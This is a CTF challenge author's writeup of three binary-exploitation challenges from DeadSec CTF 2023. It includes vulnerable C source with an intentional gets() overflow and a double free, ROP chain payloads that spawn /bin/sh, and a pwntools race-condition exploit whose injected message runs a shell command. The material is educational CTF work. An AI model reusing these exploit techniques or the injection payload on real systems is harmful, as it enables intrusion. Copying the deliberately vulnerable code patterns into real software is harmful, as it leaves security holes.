

+++
title = "DeadSec CTF 2023 authors writeups"
tags = ["PWN", "Author", "writeup"]
description = "I developed several PWN challenges for the deadsec 2023 CTF, below is a series of writeups with the intended solutions as well as the development process I used to make them"
date = "June 2nd 2023"
author = "GoldenBoy"
labels = ["introduction","youtube-writeups","one-punch","popcorn", "chatroom", "conclusion"]
cover = "engagement.png"
#do not include @ cover = "" tags = ["", ""] keywords = ["", ""] description = "" showFullContent = false readingTime = false hideComments = false color = "" #color from the theme settings 
+++
# Introduction
A few weeks ago, my team DeadSec hosted our very first CTF! I was responsible for building the PWN challenges. This is my first time doing something like this, and I am still relatively new to C development. It was challenging, but a lot of fun and I learned a lot! 

Overall, around 500 teams completed the welcome challenge, while about 1000 signed up to compete! pretty good number for our first time. 



### Source code and author solves
it's on [my github](https://github.com/Gold3nb0y/Deadsec-2023-pwn/) please send me an email if you Have any questions! 

# YouTube writeups
The Youtuber [SloppyJoePirates](https://www.youtube.com/@SloppyJoePirates) did a Great Job explaining his solutions to one-punch and Popcorn. I would really reccommend checking it out if you are like me and preffer watching things to reading them! You can watch it [here](https://www.youtube.com/watch?v=G05F5YCiNYM)

# ONE PUNCH
## Idea
Being a weeb, one of my favorite anime is One Punch Man. the story of a lonley hero who can destroy anything with a single punch!

I took inspiration from this to design the first challenge, one-punch. My goal was to make a simple Buffer overflow challenge to help contestents warm up. The only real catch is that I try to stop them from restarting the binary with with a bit of code 

## Code

```c
#include <stdio.h>
#include <string.h>
#include <stdint.h>
#include <stdlib.h>
#include <sys/mman.h>

char * key = "POWER, GET THE POWER.\0";
void* mapped_region = 0;

int one_punch(){
    __asm__(
    "pop %rdi\n"
    "ret\n"
        );
    return 1;
}

void vuln(){
    char garou[100];
    if(strcmp(key,mapped_region) != 0){
        puts("Two punch man? lameeeeee");
        exit(420);
    } else {
        memset(mapped_region, 0, 21);
        mprotect(mapped_region, 0x1000, PROT_READ);
    }
    fflush(stdout);
    gets(garou);
    return;
}

void init(){
    setvbuf(stdin,(char*)0x0,2,0);
    setvbuf(stdout,(char*)0x0,2,0);
    setvbuf(stderr,(char*)0x0,2,0);
    mapped_region = mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE| MAP_ANON, -1, 0);
    memcpy(mapped_region, key, 35);
    return;
}

int main(){
    if(mapped_region == 0){
        init();
    }
    printf("Don't forget your cape! 0x%lx\n",one_punch+8);
    puts("Do you have what it takes to be the strongest hero?");
    vuln();
    puts("Guess not :(");
}
```

## Intended solution
The intended solution was to use the pop rdi gadget along with a pop rsp and leave gadget to pivot the stack after leaking a value from the GOT

you can construct a new stack using a call to gets with a writeable address(caluculated by the offset given to the player at the start). I decided to give people an address in the code base, as this was just supposed to be a warm-up. I wanted players to spend more time on other challenges that My partners and I made. 

## example ROP-chain
### stage 1
```python
payload = "A"*88
    #leak
    payload += p64(pop_rdi)
    payload += p64(exe.got["puts"]) #load puts into rdi
    payload += p64(puts_plt) #call puts

    #write new chain
    payload += p64(pop_rdi)
    payload += p64(base + 0x4600) #writeable clear segment in memory to write the 2nd part of about payload too
    payload += p64(gets_plt)

    #pivot stack to new chain
    payload += p64(pop_rbp)
    payload += p64(base + 0x4600)
    payload += p64(leave)
```

### stage 2
stage 2 is a standard rop chain that will trigger a syscall
```python
    payload2 =  p64(0)
    payload2 += p64(pop_rdi)
    payload2 += p64(base + 0x4660) #location of /bin/sh that we write
    payload2 += p64(pop_rsi)  #               |
    payload2 += p64(0)        #               |
    payload2 += p64(pop_rdx)  #               |
    payload2 += p64(0)        #               |
    payload2 += p64(pop_rax)  #               |
    payload2 += p64(59)       #               |
    payload2 += p64(syscall)  #               |
    payload2 += p64(0)*2      #               |
    payload2 += '/bin/sh'#<-------------------
```

## Unintended solution
The other way that people figured out how to solve the challenge is to simply make a call to init after leaking a libc value, and then rerunning the vul function.

If I were to rewrite the challenge, I think I would use memprotect to make the executable section writable and then overwrite the init function with NOP's, to encourge people towards the intented stack pivot. but hey, live and learn

# Popcorn
For the popcorn challenge, I wanted to design a challenge that revolved around a double free. I am still very new to development in C, so when I started out there were only a few things I had in mind.

    1. I wanted to use 2 different structures, and the vulnerability should require both
    2. I wanted to use linked lists, so it could scale as much as the user wanted
    3. I wanted the vulnerability to be something that occured naturally as I developed the challenge

Number 3 is by far the easiest to achieve as being a beginner, I write a lot of bugs. 

## The result
I ended up building a movie review app. it is pretty simple in how it is implemented, users can create movies, and each movie contains a list of reviews. the movies use a doubly linked list, while reviews use a singly linked list

### structures
```c
typedef void (*Printer)(void*);

struct Review {
    struct Review* next;
    Printer print_func;
    size_t length;
    char* text;
};

struct Rated_Review{
    struct Review* next;
    Printer print_func;
    size_t length;
    size_t rating;
    char* text;
};

struct Movie {
    char name[0x20];
    struct Movie* next;
    struct Movie* previous;
    struct Review* review_head;
    ulong num_revs;
};
```

There are 2 types of reviews, one's with ratings and one's without. So, to print everything I had to include a function ptr on the heap. This is a bit contrieved, and there are definetly other ways I could have done this. But, as I saw it the challenge was more about finding the bug, and once you have it using it get code execution. Without this, since I used an older version of libc (2.31), players would have had to manipulate the chunks to overwrite the __malloc_hook ptr, to get code execution. 

While this would have been a good challenge, I decided not to. the binary was relatively big and stripped, so I thought just finding the bug was enough

## The bug
```c
void unlink_review(struct Review* previous_rev){
    if(previous_rev->next == NULL){
        free(previous_rev);
        return;
    }
    struct Review* to_remove = previous_rev->next;
    previous_rev->next = to_remove->next;
    free(to_remove);
    return;
}
```
I am quite happy with this bug, as it is something I missed while I was building the challenge. It is pretty simple once you notice it. Since the reviews work with a singly linked list, if it is the last element, I have no easy way of accessing the previous element in the list, so I simply freed it. This is bad, because it leaves a pointer to the freed element in the review before it. This can then be used to free the tail review again, giving the user a double free!

### get review at
```c
struct Review* get_review_at(struct Review* current, ulong index){
    for(int i = 0; i < (int)index && current != NULL; i++){
        current = current->next;
    }
    if(current == NULL){
        puts("No reviews allocated");
        return NULL;
    }
    return current;
}
```
get review at does not care about how many elements are in the list, it will read to the element given as long as pointers are given.

## The Exploit
since calloc is in use, I need to fill up the tcache, allocate the target and trigger the double free. Afterwards, I can alloc a movie and a review to have the same spot in the heap, and use the type mismatch to overwrite the review metadata with the heaps title. This lets you write and arbitrary address in the printf function for the review, which can be used to call the win function.

# Chatroom
The final challenge I developed is called chatroom. I really had a good time making this one. I had a simple mission, to make the most insecure IPC program I possibly could. I did not use semaphores, mutexs, or lock the shared files. Despite this, I think that the bug was rather tricky. In place of proper multi-threading techniques, I used home-grown metadata to restrict how processes interacted with shared memory.

The actual app is pretty fun as well, it lets users connect up to 15 clients to a server. they can then send messages back and forth, and even format messages they'd like to send to other client processes. 

## metadata
The server metadata (first 0x100 bytes), is unimportant to the challenge. It is everything necessary to connect the clients to the server. 
The client metadata is what is interesting, The is an 8byte integer used to store the state of the chunck (0 = free, 1 = help by process, 2 = ready to be read by server). following this is a 16 byte space from the username, and an 0xe8 byte space for the message.

The key thing to note is that the message space of one message goes exactly up too the in use byte for next message

## The bug
The bug is pretty small, when the client writes it's message into shared memory it uses strcpy. strcpy will copy upto and including the terminating NULL byte. This gives an off by null overwrite, resetting the in use byte for the next message. This in turn allows that message chunk to be given to a different client process. 

With two clients pointing to the same chunk of memory the stage is set for a race condition. Since people are connecting to the challenge online, I stretched out the filter by using sleeps. While I didn't like doing this, it was necessary given the circumstance.

The final race is in the !fmt option, which allows user to send format text. With two pointers to a chunk you can send a valid message to format that passes the filter, and after it has passed overwrite it with something that reads the flag!

## Exploit
```python
#!/usr/bin/env python3

from pwn import *
import time

def conn():
    if args.LOCAL:
        return
    else:
        r = remote("netcat.deadsec.quest", 32471)

    return r


def main():
    r = conn()
    client1 = remote("netcat.deadsec.quest", 32555)
    client2 = remote("netcat.deadsec.quest", 32555)
    # good luck pwning :)
    r.recvuntil(': ')
    id = int(r.recvline().strip())
    r.recvuntil(": ")
    password = r.recvline().strip().decode()
    log.info(f"ID: {id}\nPASSWORD: {password}")

    #init client1
    client1.sendlineafter(":",f"{id}");
    client1.sendlineafter(":",f"{password}");
    client1.sendlineafter(":","FOO");

    #init client2
    client2.sendlineafter(":",f"{id}");
    client2.sendlineafter(":",f"{password}");
    client2.sendlineafter(":","BAR");

    #at this point both messages have an allocated space
    client1.sendlineafter(">", "A"*0xe7) #send a full message to overwrite the in use byte of client2's message 
    #this makes it so that it will select the same space as client2 for the next message

    client2.sendlineafter(">", '!fmt \\nlife could be a dream') #send the message so the in use byte is set to send, now the server will check the message 

    #wait until FILTER, marks the start of parsing. wait 1.2 seconds for the race con
    r.recvuntil("FILTER")
    time.sleep(1.2)

    #overwrite the shared memory
    client1.sendline("!fmt hello';ls /tmp;echo 'world")

    client2.interactive()


if __name__ == "__main__":
    main()
```

# Conclusion
Overall, I had a great time developing challenges for this CTF! I learned a lot about developing in C, as well as about IPC. I can't wait for next year, when I get a chance to make even better challenges with all that I learn before then!
